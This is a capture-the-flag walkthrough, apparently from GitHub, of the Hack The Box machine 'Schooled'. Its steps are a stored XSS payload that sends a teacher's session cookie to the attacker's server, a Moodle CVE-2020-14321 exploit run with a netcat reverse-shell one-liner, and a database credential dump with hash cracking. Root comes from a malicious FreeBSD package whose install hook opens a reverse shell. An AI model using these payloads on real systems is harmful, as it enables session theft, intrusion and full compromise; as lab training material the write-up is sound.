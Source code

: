 1. Connect the box, get IP.  
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```  
    ![](./images/schooled1.png)  
3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.  
    ![](./images/schooled2.png)  
4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```  
    ![](./images/schooled3.png)  
    Found moodle.schooled.htb, add that to /etc/hosts.  
5. Open moodle.schooled.htb.  
6. Create account, login, join Mathematics course, check Announcements.  
    ![](./images/schooled4.png)  
7. Go to Edit profile, see the MoodleNet field.  
    Type in 
    ```html
    "><h1>test</h1>
    ```  
    and Update profile, you see this:  
    ![](./images/schooled5.png)  
    Hence, the site has XSS (Cross-Site Scripting)  
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:  
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.  
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.  
    ![](./images/schooled6.png)  
    ![](./images/schooled7.png)  
11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:  
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:  
    ![](./images/schooled8.png)  
12. Use nc to transfer FreeBSD socat and stabilize shell.  
13. The username and password of mysql are in '/usr/local/www/apache24/data/moodle/config.php'.
    ```User: moodle, DBname: moodle, Password: PlaybookMaster2020```
14. Login to mysql,
    ```bash
    mysql -u moodle -p moodle
    ```
    Enter the password as found above.  
    ![](./images/schooled9.png)  
15. Run:
    ```mysql
    show tables;
    ```
    to show tables, there is a table named "mdl_user".  
16. Run:
    ```mysql
    describe mdl_user;
    ```
    to show all columns in that table, there is a column named "username" and "password".
17. Run:
    ```mysql
    select email, username, password from mdl_user;
    ```
18. We get the admin's (jamie's) password hash, crack it using john.
    ```
    hash: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
    cracked: !QAZ2wsx
    ```
19. Login to jamie's ssh using the password, get 'user.txt'.
20. run sudo -l, get this:  
    ![](./images/schooled10.png)
21. We need to create a custom package for FreeBSD. Refer to [this site](http://lastsummer.de/creating-custom-packages-on-freebsd/).  
22. Run this script as jamie:
    ```bash
    #!/bin/sh

    STAGEDIR=/tmp/package

    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}

    cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Resetting root shell”
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f
    EOF

    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo “Registering root shell”
    pw usermod -n root -s /bin/sh
    EOF

    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: “1.0_5”
    origin: sysutils/mypackage
    comment: “automates stuff”
    desc: “automates tasks which can also be undone later”
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF

    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
    ```
23. Set up a nc listener:
    ```bash
    nc -lnvp 1234
    ```
24. A .txz file will be created in the current directory. Run the following command to install the package:
    ```bash
    sudo pkg install --no-repo-update *.txz
    ```
25. And we have got our root shell. Get 'root.txt' from here.